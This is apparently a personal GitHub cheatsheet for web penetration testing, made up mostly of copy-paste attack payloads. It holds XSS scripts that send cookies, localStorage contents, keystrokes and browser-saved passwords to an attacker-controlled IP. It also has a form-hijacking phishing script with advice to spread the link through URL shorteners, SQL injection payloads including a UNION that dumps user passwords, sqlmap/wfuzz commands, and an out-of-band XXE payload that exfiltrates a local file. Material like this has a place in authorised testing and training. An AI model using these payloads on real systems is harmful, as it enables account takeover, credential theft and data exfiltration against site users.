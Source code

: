 # Welcome to Useful-Shit/Web!

Hi! This would probably be better as a gist, honestly. But it's my repo and I'll do what I want!
This is basically just a web testing cheatsheet for me but if you find my stuff useful, a star would be appreciated 😁

## Quick Jump:
- [XSS](#xss-copypastas)
- [SQLi](#sql-injection-sqli)
- []

# Cross-Site Scripting (XSS)

XSS Payloads for fun and profit. Different types of XSS:

 - **Reflected Server XSS:** often found in locations where user input is sent via GET parameters.
	 - `search.php?s=%3Cscript%3Ealert%280%29%3C%2Fscript%3E`
 - **Stored Server XSS:** Literally stored on the server. Think user comments or blog/page posts.
	 - `<script>alert(0)</script>`
 - **Reflected Client XSS:** Same kind of idea as the Server XSS. Stuff some junk into a parameter and see what sticks.
	 - `<img src='x' onerror='alert(1)'>`
 - **Stored Client XSS:** Things like form elements can be taken advantage of to store XSS, for example a survey page for Jarrod has the URL `http://survey.tld/?name=Jarrod` and after filling the survey we end up with a new parameter `http://survey.tld/?name=Jarrod&result`. The answers to the survey could be prone to injection, and should be tested.

## XSS - Exploitation

### Stealing session cookies

Leverage XSS to fetch the payload from a web server you control:

`xss.js`

```javascript
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
```

This payload may not work if `HttpOnly` is specified in the server headers.

### Stealing local secrets

Local storage may include secrets like API keys or personal user info. There are two types: `sessionStorage` and `localStorage` - session storage only holds data for the session, whereas `localStorage` is the local cache and won't be flushed until explicitly done so.

`local.js`

```javascript
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)
```

### Keylogging

It's keylogging, but through XSS. Let's see what users are typing:

`klog.js`

```javascript
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

### Stealing saved passwords

`stealer.js`

```javascript
let body = document.getElementsByTagName("body")[0]

  var u = document.createElement("input");
  u.type = "text";
  u.style.position = "fixed";
  //u.style.opacity = "0";

  var p = document.createElement("input");
  p.type = "password";
  p.style.position = "fixed";
  //p.style.opacity = "0";

  body.append(u)
  body.append(p)

  setTimeout(function(){ 
          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
   }, 5000);
```

### Phishing users

The concept is simple: Use javascript to *fetch* the login page, and change the action (submit) on the form to point to our listening server hosting the XSS. Take the above **Reflected Server XSS** for example. In the `search.php?s=` parameter, we could use `<script src="10.10.13.37/xss.js"></script>`, but URLEncode it first: `search.php?s=%3Cscript%20src%3D%2210%2E10%2E13%2E37%2Fxss%2Ejs%22%3E%3C%2Fscript%3E`. Now we have a deadly link to send to users, or take it a step further and use a URL shortener 😉

`phish.js`

```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

## XSS Copypastas

 - `<script>alert(0)</script>`

 - `<img src='x' onerror='alert(1)'>`

 - `<img src='x' onerror='alert(document.location)'>`

 - External payload: `<script src="http://10.10.13.37/xss.js"></script>`

 - Insert script from external: `<img src='x' onerror='const script = document.createElement("script"); script.src="http://10.10.13.37/xss-login.js";document.head.append(script);'>`


## SQL Injection (SQLi)

### Fuzzing GET parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"`

### Fuzzing POST parameter
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"`

### sqlmap GET parameter
`sqlmap -u "$URL/index.php?id=1"`

### sqlmap POST parameter
Copy POST request from Burp Suite into `post.req` file
`sqlmap -r post.req -p parameter`

SELECT * FROM menu WHERE name = 'Tostadas'

SELECT id, name, description, price FROM menu WHERE name = 'foo'

jim OR id between 1 and 200

Postgresql: '; select * from menu;--

Oracle:

Strings and functions

ALL: %foo') or id between 1 and 200-- %')

## Example SQLi Statements:

MSSQL error discovery: `inStock=1&name=test&sort=id&order=%foo') or id between 1 and 200-- %')`

MSSQL version/error-based: `inStock=1&name=test ') or 1/@@version=LOWER('name&sort=id&order=asc`

MSSQL 2: `inStock=CAST((SELECT+TOP+1+table_name+FROM+(Select+TOP+2+table_name+FROM+app.information_schema.tables+ORDER+BY+table_name)z+ORDER+BY+table_name+DESC)+as+varchar);&name=&sort=id&order=asc`

UNION: `SELECT id, name, description, price FROM menu WHERE id = 0 UNION ALL SELECT id, username, password, 0 from users`

## External XML Entities (XXE)

Fetch `external.dtd`

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.222/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

`external.dtd`
```
<!ENTITY % content SYSTEM "file:///root/oob.txt">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.222/out?%content;'>" >
```